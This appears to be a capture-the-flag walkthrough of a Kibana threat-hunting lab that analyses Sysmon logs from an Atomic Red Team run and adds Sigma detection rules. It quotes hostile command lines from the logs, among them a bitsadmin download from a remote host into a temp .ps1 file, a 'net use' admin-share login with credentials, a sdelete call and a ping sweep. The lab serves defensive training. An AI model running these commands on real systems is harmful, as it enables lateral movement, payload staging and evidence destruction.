









# Kibana : Windows Event Logs I — Complete Walkthrough & Threat Hunting Analysis

> **Platform:** [INE Security (Cybersecurity Hands-on Labs)](https://my.ine.com/)
>
> **Lab Link:** [https://my.ine.com/labs/6c9620b7-c022-3f1b-bbdc-44c7943e335f](https://my.ine.com/labs/6c9620b7-c022-3f1b-bbdc-44c7943e335f)
>
> **Challenge Title:** Kibana : Windows Event Logs I (CID 1182)
>
> **Category:** Log Analysis & Threat Hunting: Windows Event Logs
>
> **Dataset Source:** [`PanacheSysmon_vs_AtomicRedTeam01.evtx`](https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx) (by Samir Bousseaden)
>
> **Status:** 5 of 5 Flags Captured (100% Solved)

---

<div align="center">



# 🔍 Kibana: Windows Event Logs I 🔍
### SOC Threat Hunting & Forensic Analysis of Red Canary Atomic Red Team Execution

[](https://my.ine.com/labs/6c9620b7-c022-3f1b-bbdc-44c7943e335f)
[](https://www.elastic.co/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/)

</div>

---

### 💻 Real-Time Investigation Demonstration

The animated recording below demonstrates the full Kibana threat hunting workflow—filtering event data across `EventData.CommandLine`, isolating Atomic Red Team telemetry, extracting credentials from command-line arguments, identifying network sweeps, and capturing all 5 flags:



---

# Executive Summary

In enterprise Security Operations Center (SOC) environments, endpoint telemetry is the primary data source for detecting post-exploitation activity. Adversaries frequently rely on built-in administrative tools and Living Off the Land Binaries (LOLBAS) to establish persistence, evade defenses, move laterally, conduct internal reconnaissance, and stage tools.

This lab provides an environment where Windows event logs generated during automated adversary emulation using **Red Canary's Atomic Red Team** framework were ingested into an **Elasticsearch & Kibana (ELK)** stack via **Microsoft Sysmon**.

As SOC analysts and threat hunters, our objective is to analyze the Windows event logs using the Kibana Discover interface, identify attacker commands, extract operational artifacts, and capture all five flags.

---

# 5-Stage Threat Hunting Workflow

The investigation follows the structured methodology below:





---

# 🚩 Flag Capture Summary Matrix

| # | Investigation Objective | MITRE ATT&CK Technique | Kibana Search Filter | Captured Flag / Answer |
| :---: | :--- | :--- | :--- | :--- |
| **Q1** | Scheduled Task User Password | **T1053.005** (Scheduled Task) | `task` or `EventData.CommandLine : "schtasks"` | **`At0micStrong`** |
| **Q2** | Securely Deleted File Path | **T1070.004** (File Deletion) | `sdelet*` or `EventData.CommandLine : sdelete*` | **`C:\some\file.txt`** |
| **Q3** | Remote SMB Administrator Password | **T1021.002** (SMB Admin Shares) | `net use` or `EventData.CommandLine : "net use"` | **`P@ssw0rd1`** |
| **Q4** | Ping Sweep Target Subnet | **T1018** (Remote System Discovery) | `ping` or `EventData.CommandLine : "ping"` | **`192.168.1.0/24`** |
| **Q5** | BITSAdmin Downloaded File Path | **T1197** (BITS Jobs) / **T1105** | `Bitsadmin*` or `EventData.CommandLine : bitsadmin*` | **`C:\Windows\Temp\bitsadmin_flag.ps1`** |

---

# Detailed Step-by-Step Walkthrough

## Setup & Time-Window Configuration

Upon accessing the Kibana interface:
1. Navigate to the **Discover** tab in the left navigation sidebar.
2. Ensure the active index pattern is `event-logs` (Sysmon telemetry).
3. Set the global time filter in the top right:
   - **Start Time:** `Jul 19, 2019 @ 20:11:35.076`
   - **End Time:** `Jul 19, 2019 @ 20:43:23.272`
4. Add **`EventData.CommandLine`** from the Available Fields panel to your Selected Fields for streamlined analysis.

---

## 🚩 Question 1: Scheduled Task Password

### Objective
> *A task was scheduled to run daily at a specific time. Provide the password of the user running that task.*

### Threat Hunting Query
In the Kibana search bar, filter for scheduled task activity:

```text
task
```
*(or explicitly: `EventData.CommandLine : "schtasks"`)*

### Log Analysis
Kibana returns **4 hits** matching this filter. Examining the event logs at `Jul 19, 2019 @ 20:27:46.000`:

```text
Log 1: 'C:\Windows\system32\cmd.exe' /c 'SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10'
Log 2: SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10
Log 3: 'C:\Windows\system32\cmd.exe' /c 'SCHTASKS /Create /S localhost /RU DOMAIN\user /RP At0micStrong /TN ' Atomic 'task /TR C:\windows\system32\cmd.exe /SC daily /ST 20:10'
Log 4: SCHTASKS /Create /S localhost /RU DOMAIN\user /RP At0micStrong /TN ' Atomic 'task /TR C:\windows\system32\cmd.exe /SC daily /ST 20:10
```

### Forensic Dissection
Log #4 shows the exact command creating a persistent task configured to execute **daily**:

```cmd
SCHTASKS /Create /S localhost /RU DOMAIN\user /RP At0micStrong /TN ' Atomic 'task /TR C:\windows\system32\cmd.exe /SC daily /ST 20:10
```

* **`/Create`**: Registers a new scheduled task.
* **`/S localhost`**: Targets the local machine.
* **`/RU DOMAIN\user`**: Specifies the Run As User identity.
* **`/RP At0micStrong`**: **The Run As Password parameter.** Passing `/RP` on the CLI inadvertently exposes the plaintext password in process creation events.
* **`/TN ' Atomic 'task`**: Task Name.
* **`/TR C:\windows\system32\cmd.exe`**: Target execution path.
* **`/SC daily`**: Schedule frequency configured to run **daily**.
* **`/ST 20:10`**: Start time set to 20:10 (8:10 PM).

### Answer / Flag
```text
At0micStrong
```

### Verified Evidence Screenshot


> [!CAUTION]
> **Security Implication (CWE-214):** Passing credentials via command-line arguments (`/RP <password>`) exposes secrets in plaintext across process creation logs (Sysmon EID 1, Windows EID 4688) and process listings accessible by any unprivileged user on the host.

---

## 🚩 Question 2: Securely Deleted File Path

### Objective
> *A .txt file had been deleted securely using the 'sdelete' utility. Provide the full path of that file.*

### Threat Hunting Query
Filter for executions of Microsoft Sysinternals `sdelete`:

```text
sdelet*
```
*(or explicitly: `EventData.CommandLine : sdelete*`)*

### Log Analysis
Kibana returns **1 hit** recorded at `Jul 19, 2019 @ 20:17:57.000`:

```text
Time                     : Jul 19, 2019 @ 20:17:57.000
EventData.Image          : C:\Windows\System32\cmd.exe
EventData.CommandLine    : 'C:\Windows\system32\cmd.exe' /c 'sdelete.exe C:\some\file.txt'
EventData.ParentImage    : C:\Windows\System32\cmd.exe
```

### Forensic Dissection
The command line confirms the invocation of Microsoft Sysinternals `sdelete.exe`:

```cmd
sdelete.exe C:\some\file.txt
```

* **What is SDelete?** SDelete (Secure Delete) is a utility designed to securely delete files by overwriting file data blocks to thwart recovery in compliance with the DoD 5220.22-M clearing standard.
* **Adversary Motivation:** Threat actors abuse `sdelete.exe` as a defense evasion technique (**MITRE ATT&CK T1070.004 - File Deletion**) to destroy staging tools, scripts, and logs.

### Answer / Flag
```text
C:\some\file.txt
```

### Verified Evidence Screenshot


---

## 🚩 Question 3: Remote SMB Administrator Password

### Objective
> *The host machine connected to a shared resource on a remote machine, as Administrator user using the 'net use' command. Provide the password used to connect to that remote machine.*

### Threat Hunting Query
Filter for the built-in Windows network connection command `net use`:

```text
net use
```
*(or explicitly: `EventData.CommandLine : "net use"`)*

### Log Analysis
Kibana returns matching events recorded at `Jul 19, 2019 @ 20:18:41.000`:

```text
Log 1: 'C:\Windows\system32\cmd.exe' /c 'cmd.exe /c net use \\Target\C$ P@ssw0rd1 /u:DOMAIN\Administrator'
Log 2: cmd.exe /c net use \\Target\C$ P@ssw0rd1 /u:DOMAIN\Administrator
Log 3: net use \\Target\C$ P@ssw0rd1 /u:DOMAIN\Administrator
```

### Forensic Dissection
Log #3 shows the exact command invoked:

```cmd
net use \\Target\C$ P@ssw0rd1 /u:DOMAIN\Administrator
```

* **`net use`**: Standard Windows command connecting a computer to shared network resources.
* **`\\Target\C$`**: Targets the default administrative drive share (`C$`) of remote host `Target`.
* **`P@ssw0rd1`**: The plaintext password provided for authentication.
* **`/u:DOMAIN\Administrator`**: Target user context.

### Answer / Flag
```text
P@ssw0rd1
```

### Verified Evidence Screenshot


> [!NOTE]
> **MITRE ATT&CK Mapping (T1021.002):** Adversaries use `net use` with administrative credentials to mount administrative shares (`C$`, `ADMIN$`, `IPC$`) for lateral movement before staging malware or executing remote services.

---

## 🚩 Question 4: Ping Sweep Subnet Address (CIDR)

### Objective
> *A ping sweep attack had been launched by the host machine against a network. What was the subnet address of that network? Provide the answer in CIDR notation.*

### Threat Hunting Query
Filter for `ping` execution:

```text
ping
```
*(or explicitly: `EventData.CommandLine : "ping"`)*

### Log Analysis
Kibana returns **255 hits**. Reviewing the earliest timestamp (`Jul 19, 2019 @ 20:21:35.000`) reveals the parent command that spawned the ping sweep:

```text
Time                     : Jul 19, 2019 @ 20:21:35.000
EventData.CommandLine    : 'C:\Windows\system32\cmd.exe' /c 'for /l %i in (1,1,254) do ping -n 1 -w 100 192.168.1.%i'
```

Following this parent command, 254 distinct child processes are spawned in sequential order:
- `ping -n 1 -w 100 192.168.1.1`
- `ping -n 1 -w 100 192.168.1.2`
- `...`
- `ping -n 1 -w 100 192.168.1.254`

### Forensic Dissection
The command employs an arithmetic `for /l` loop native to Windows Command Prompt:

```cmd
for /l %i in (1,1,254) do ping -n 1 -w 100 192.168.1.%i
```

* **`for /l %i in (start,step,end)`**: Loops through numbers starting at `1`, stepping by `1`, ending at `254`.
* **`-n 1`**: Sends exactly 1 ICMP Echo Request per IP.
* **`-w 100`**: Sets the timeout to 100 milliseconds for speed.
* **`192.168.1.%i`**: Iterates through the host range `192.168.1.1` to `192.168.1.254`.
* **Subnet Representation:** The target range encompasses the 24-bit subnet starting at `192.168.1.0` with subnet mask `255.255.255.0`, which corresponds to **`192.168.1.0/24`** in CIDR notation.

### Answer / Flag
```text
192.168.1.0/24
```

### Verified Evidence Screenshot


---

## 🚩 Question 5: BITSAdmin Downloaded File Path

### Objective
> *Bitsadmin tool was used to download a file from a remote server. Provide the full path of the downloaded file on the host machine.*

### Threat Hunting Query
Filter for executions of the BITSAdmin management utility:

```text
Bitsadmin*
```
*(or explicitly: `EventData.CommandLine : bitsadmin*`)*

### Log Analysis
Kibana returns **12 hits**. Inspecting the command recorded at `Jul 19, 2019 @ 20:18:04.000` and `20:18:30.000`:

```text
Time                     : Jul 19, 2019 @ 20:18:04.000
EventData.Image          : C:\Windows\System32\bitsadmin.exe
EventData.CommandLine    : bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md C:\Windows\Temp\bitsadmin_flag.ps1
```

```text
Time                     : Jul 19, 2019 @ 20:18:30.000
EventData.CommandLine    : bitsadmin.exe /addfile AtomicBITS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md C:\Windows\Temp\bitsadmin_flag.ps1
```

### Forensic Dissection
The adversary abused `bitsadmin.exe` as a Living Off the Land binary (LOLBAS) to stage malicious scripts:

```cmd
bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md C:\Windows\Temp\bitsadmin_flag.ps1
```

* **`bitsadmin.exe`**: Built-in Windows tool for managing Background Intelligent Transfer Service (BITS) jobs.
* **`/transfer`**: Creates a single-job download transfer.
* **`/Download`**: Specifies the transfer direction as download.
* **`/priority Foreground`**: Forces the transfer into foreground priority for immediate execution.
* **Source URL**: `https://raw.githubusercontent.com/.../T1197.md`
* **Destination Path**: Saved directly into the Windows temporary directory as **`C:\Windows\Temp\bitsadmin_flag.ps1`**.

### Answer / Flag
```text
C:\Windows\Temp\bitsadmin_flag.ps1
```

### Verified Evidence Screenshot


---

# 🛡️ Detection Engineering & Defensive Hardening

As Blue Team defenders and SOC engineers, we can translate these findings into proactive detection rules and hardening policies:

### 1. Sigma Detection Rule: Credential Exposure in `schtasks`
```yaml
title: Plaintext Password Supplied in Schtasks Command Line
id: 9b2d8611-37f0-464a-93be-12a8397a0641
status: experimental
description: Detects scheduled task creation with plaintext password supplied via /RP parameter.
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\schtasks.exe'
        CommandLine|contains:
            - '/create'
            - '/rp'
    condition: selection
level: high
tags:
    - attack.persistence
    - attack.t1053.005
```

### 2. Sigma Detection Rule: Ingress Download via BITSAdmin
```yaml
title: Ingress File Download via BITSAdmin
id: 1197cb31-8601-49fa-9481-9b19e99217e9
status: test
description: Detects the use of bitsadmin.exe to download files from remote servers.
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\bitsadmin.exe'
        CommandLine|contains:
            - '/transfer'
            - '/download'
    condition: selection
level: medium
tags:
    - attack.defense_evasion
    - attack.persistence
    - attack.t1197
    - attack.t1105
```

### 3. Recommended Endpoint Hardening Measures
* **Audit Process Creation Command Lines:** Ensure Windows Security Event ID **4688** is enabled with **"Include command line in process creation events"** via Group Policy (`Computer Configuration -> Policies -> Administrative Templates -> System -> Audit Process Creation`).
* **Deploy Sysmon:** Maintain comprehensive Sysmon logging (specifically Event ID 1 for Process Creation and Event ID 3 for Network Connections).
* **Deprecate `bitsadmin.exe`:** Microsoft officially deprecated the `bitsadmin` command-line tool. Restrict its execution via Application Control policies (AppLocker / Windows Defender Application Control) and encourage legitimate administrators to use PowerShell's `Start-BitsTransfer` cmdlet.
* **Block SMB Outbound at Host Firewalls:** Block outbound port 445 traffic between internal workstations to prevent lateral movement via administrative shares (`C$`, `ADMIN$`).

---

# 📚 References
* [INE Security Lab: Kibana Windows Event Logs I](https://my.ine.com/labs/6c9620b7-c022-3f1b-bbdc-44c7943e335f)
* [AttackDefense Challenge Details (CID 1182)](https://attackdefense.com/challengedetails?cid=1182)
* [Samir Bousseaden EVTX-ATTACK-SAMPLES Repository](https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES)
* [Red Canary Atomic Red Team: T1053.005 Scheduled Tasks](https://atomicredteam.io/execution/T1053.005/)
* [Red Canary Atomic Red Team: T1197 BITS Jobs](https://atomicredteam.io/defense-evasion/T1197/)
* [Elasticsearch & Kibana Official Documentation](https://www.elastic.co/guide/en/kibana/current/index.html)
